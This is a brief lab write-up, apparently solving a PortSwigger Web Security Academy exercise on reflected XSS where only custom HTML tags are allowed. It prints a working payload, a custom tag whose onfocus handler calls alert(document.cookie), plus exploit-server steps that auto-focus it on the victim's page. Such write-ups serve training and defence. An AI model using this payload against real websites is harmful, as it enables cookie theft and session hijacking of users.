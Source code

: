 # Reflected XSS into HTML context with all tags blocked except custom ones

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked) blocks all HTML tags except custom ones. 

## Reproduction and proof of concept

1. Go to the exploit server and paste the following code, replacing `lab-id` with your lab ID:
 
```text
<script>
    location = 'https://lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

![XSS](../../_static/images/xss8.png)
    
2. Click **Store** and **Deliver exploit to victim**.

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called.
